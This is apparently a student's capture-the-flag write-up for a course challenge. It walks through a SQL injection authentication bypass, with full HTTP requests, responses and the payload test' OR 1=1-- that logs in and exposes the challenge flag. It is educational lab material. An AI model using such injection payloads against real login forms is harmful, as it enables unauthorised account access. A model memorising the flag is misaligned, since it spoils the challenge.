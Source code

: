 50 points here: `[http://offsec-chalbroker.osiris.cyber.nyu.edu:1240](http://offsec-chalbroker.osiris.cyber.nyu.edu:1240)`

Flag: `flag{w0w_such_1337_SQLi}`

Walkthrough:
Loging in takes you to login portal:
![[Pasted image 20240409164754.png]]

Login portal only takes email address format in email field
That's okay, we can intercept and edit the requests (or send requests directly)

Got an error with a email payload of `test'`
Request:
```
POST /login.php? HTTP/1.1
Host: offsec-chalbroker.osiris.cyber.nyu.edu:1240
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://offsec-chalbroker.osiris.cyber.nyu.edu:1240
Connection: close
Referer: http://offsec-chalbroker.osiris.cyber.nyu.edu:1240/login.php?
Cookie: CHALBROKER_USER_ID=lmv9443; PHPSESSID=76eu88qnnso29ql60ugh7f4bn6
Upgrade-Insecure-Requests: 1
X-PwnFox-Color: pink

email=test'&password=test
```

Response:
```
HTTP/1.0 500 Internal Server Error
Date: Tue, 09 Apr 2024 21:52:15 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 0
Connection: close
Content-Type: text/html
```
# Pwning
Send Payload:
```
POST /login.php? HTTP/1.1
Host: offsec-chalbroker.osiris.cyber.nyu.edu:1240
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://offsec-chalbroker.osiris.cyber.nyu.edu:1240
Connection: close
Referer: http://offsec-chalbroker.osiris.cyber.nyu.edu:1240/login.php?
Cookie: CHALBROKER_USER_ID=lmv9443; PHPSESSID=76eu88qnnso29ql60ugh7f4bn6
Upgrade-Insecure-Requests: 1
X-PwnFox-Color: pink

email=test'+OR+1=1--+test&password=test
```
Redirect Response
```
HTTP/1.1 302 Found
Date: Tue, 09 Apr 2024 21:46:17 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Location: index.php
Content-Length: 0
Connection: close
Content-Type: text/html
```

After redirect:
```
HTTP/1.1 200 OK
Date: Tue, 09 Apr 2024 21:46:22 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1908
Connection: close
Content-Type: text/html
...omitted for brevity...
<div class="container">
	<div style="padding: 3rem 1.5rem; text-align: center">
		<h2>
		    Welcome test' OR 1=1-- test!
	    </h2>
	    <p>
		    flag{w0w_such_1337_SQLi}
	    </p>
	</div>
</div>
```

